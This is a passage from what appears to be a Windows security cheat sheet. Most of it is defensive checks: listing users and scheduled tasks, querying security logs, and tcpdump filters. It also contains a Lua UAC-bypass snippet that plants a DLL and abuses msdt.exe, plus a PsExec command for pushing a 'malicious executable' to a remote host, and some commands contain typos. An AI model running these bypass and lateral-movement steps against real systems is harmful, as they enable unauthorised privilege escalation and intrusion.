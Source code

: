 net user
net localgroup <group>
```

## Examining Unusual Scheduled Tasks:

```
schtasks
```

## Examining Unusual Log Entries:

```
wevutil qe security /f:text
Get-EventLog -LogName Security | Format-List -Property *
```

## Lua UAC Bypass:

```
-- auto elevate UAC bypass only on Windows 10.
is.popen("c:\windows\system32\cmd.exe /c 'mkdir %appdata%\..\Local\Microsoft\WindowsApps'")
is.popen("c:\windows\system32\cmd.exe /c 'copy Tsutsuji_x64.dll %appdata%\..\Local\Microsoft\WindowsApps\BluetoothDiagnosticUtil.dll'")
is.popen("c:\windows\system32\cmd.exe /c 'c:\windows\syswow64\msdt.exe -path C:\WINDOWS\diagnostics\index\BluetoothDiagnostic.xml -skip yes'")
```

## TCPDump:

```
tcpdump -i <interface> # Capture, can use "any" 
tcpdump -i <interface> -w <file> # Write to a file after capture
tcpdump -r <file> -n # Read from a file and don't resolve hosts and ports
tcpdump -r <file> -n -A # Read from a file and don't resolve hosts and ports, show as ASCII

# Berkeley Packet Filtering

tcpdump -r <file> 'host 8.8.8.8'
tcpdump -r <file> 'src host 8.8.8.8'
tcpdump -r <file> 'not src host 8.8.8.8'
tcpdump -r <file> 'icmp and (src host 8.8.8.8'
```
## PSExec'ing:

Running PsExec by uploading malicious executable:

```
# This will continue the PsExec session through named pipe, and will only terminate once the process is terminated. Additionally this -c parameter will manually cleanup the executable.
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -c update.exe
